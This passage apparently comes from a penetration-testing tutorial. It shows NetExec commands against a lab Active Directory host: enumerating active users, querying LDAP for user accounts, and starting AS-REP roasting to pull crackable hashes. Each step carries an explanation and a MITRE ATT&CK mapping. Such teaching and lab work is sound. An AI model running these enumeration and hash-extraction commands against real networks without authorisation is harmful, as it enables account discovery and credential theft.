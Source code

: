 ![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhPTRqRWx06WIvW0xSxjU5htUp1Mabc-uaFomiERUwra57t1x_EVSwgP95mdNBboJxePrnUYddp6IJ4gxMUUEbs_e3vVLZrdSMM6N0UUq5fRRsQUGMFs6B_4vbwgAuWU_Wx3OE60et_v9U2W6-mj835HWapr9OXglL90rMf063HQJNjIzECNFttt5G5PfoD/s16000/3.png)

**Active users**:

```bash
nxc ldap 192.168.1.48 -u raj -p Password@1 --active-users
```

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjkSroayYIU2n7yVXRA8WrmlMktPJKI3LiWm-6v4t76jG2o1Yni26GaadT9caphvyv_2FWQJLR5ClxtCZg_GX2HDgLc59SK0jx-rvfJ-YpNlbrq61-sg_kxZl_gjv0MOeUesFFgO4jzStiErz-pGsHvgVRuYoC7TuguYmKxTb1RB_MOwaizs3sdc4fPLGA8/s16000/4.png)

**Explanation**:

- –users: Retrieves all users in the directory.
- –active-users: Filters the result to only active users (i.e., not disabled).

**MITRE ATT&CK Mapping**:

**T1087** – Account Discovery.

### LDAP Queries for Specific Users

**Purpose**: Queries LDAP for specific user attributes, such as their sAMAccountName.

**Query a specific user**:

```bash
nxc ldap 192.168.1.48 -u raj -p Password@1 --query "(sAMAccountName=aarti)" ""
```

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjgyUEersDg3drlfgDYlQgu0pZeVL0ARbeqxZ0Vv8agJu2eR04n3UDzenxqkZmjHpGGNwU8zAOx8sz6IZSzbCikZCGaq8GL8OaBnKGJcvwZ9NhfTTmtieKVz5iIrl9DZYunIZd5zD-qOLSN1rXr_xz0pFQ3VPHlCq9s3jwKR_Y-QKyshgUtyvHyaVDfRSfe/s16000/5.png)

**Query all users**:

```bash
nxc ldap 192.168.1.48 -u raj -p Password@1 --query "(sAMAccountName=*)" ""
```

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiMETTUTDQKfA-M2z0fVze677PG1_0dqQNrM4ZqYCycdfy9IB17YEHMPTvJycWCjRalaDKTa9gYzpXFgd7xnAWqwj4nkv54TVT2TX2kL8jEqtat93VPZEOdmI-jn0xNqxmHv9ONL3L1h8HhGJtdR6XjmxQQ4EzXFmnnUMY6lGQVKy-3utCZ2CQoFhiNRaqI/s16000/6.png)

**Explanation**:

- –query “(sAMAccountName=aarti)”: Queries for a user with the sAMAccountName “aarti”.
- –query “(sAMAccountName=*)”: Retrieves all users in the AD environment.

**MITRE ATT&CK Mapping**:

**T1087** – Account Discovery.

### ASREPRoasting

**Purpose**: **ASREPRoasting** exploits **accounts** that do not require **Kerberos pre-authentication** to extract **service ticket hashes**, which can then be **cracked offline**.

**Without Authentication**:

```bash
nxc ldap 192.168.1.48 -u yashika -p '' --asreproast output.txt
```

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEig8CGNigQ_pI1NSr8MorCQhAQkaKIaOsEcvturSibAIqLjPxnNUtCcPtntAEIZNDAUAvdTWxnePc7mNqEkQngXBTqjTa3u2kbKZ1oCydwi4kcWK2yfT4KMSLxCpyOeUwuwcKUqsKLSjJgJIwaW_Urxf-sfDlquIHJ8ON41nGZQo_crKnXiMPgOA4JPCKDl/s16000/7.png)
